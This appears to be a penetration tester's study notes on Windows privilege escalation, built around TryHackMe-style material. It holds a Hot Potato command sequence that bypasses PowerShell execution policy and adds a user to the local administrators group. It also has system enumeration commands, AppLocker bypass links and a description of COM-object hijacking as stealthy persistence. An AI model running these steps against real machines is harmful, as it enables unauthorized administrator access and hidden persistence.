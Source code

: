 ## Potato Exploits 

[[Potato-Exploits]] are numerous, here is Hot Potato for example: 
```powershell
powershell.exe -nop -ep bypass
https://github.com/Kevin-Robertson/Tater.git
Import-Module C:\Path\To\HotPotato.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

## Partially Uninstalled Software

Jake Williams *"COM objects are the devil"*, they are controlled registery values specifically InProcServer32 value. Stale COM objects remain and current service executables will try invoke COM objects with specific class ids. With bad file permissions we can escalate privileges. [Casey Smith @Subtee/BoHop Talk](https://www.youtube.com/watch?v=3gz1QmiMhss) and [Writeup of Talk by enigma0x3](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)*"Some environments use whitelisting to prevent unsigned Windows Scripting Host (WSH) files from running, especially with the rise of malicious .js or .vbs files. However, by “injecting” our malicious code into a Microsoft signed WSH script, we can bypass such a restriction."*. It super stealthy persistence as no one checks at your COM objects. 

Upcoming


## AppLocker Bypassing

By default, `C:\Windows` is not blocked, and `C:\Windows\Tasks` is writtable by any users:
- [https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)
- https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md)
- [https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md)


## Kernel exploits

Enumerate the [[Windows-Kernel]]
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
```
Research potential exploit...

[[WESNG-Helpsheet]] if you have `systeminfo` or equivalent output.


## References

[THM Windows PrivEsc Room](https://tryhackme.com/room/windowsprivesc20)
[THM Lay of the Land Room](https://tryhackme.com/room/thelayoftheland)
[Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
[PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
[Wild west hackin' Fest Jake Williams - Talk: Elevating your Windows Privilege like Boss](https://www.youtube.com/watch?v=SHdM197sbIE')
[Wild west hackin' Fest Jake Williams - Talk: Privilege Escalation](https://www.youtube.com/watch?v=yXe4X-AIbps)
[Udemy - tib3rius](https://www.udemy.com/user/tib3rius/)
[Casey Smith @Subtee/BoHop Talk](https://www.youtube.com/watch?v=3gz1QmiMhss) 
[Writeup of Talk by enigma0x3](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)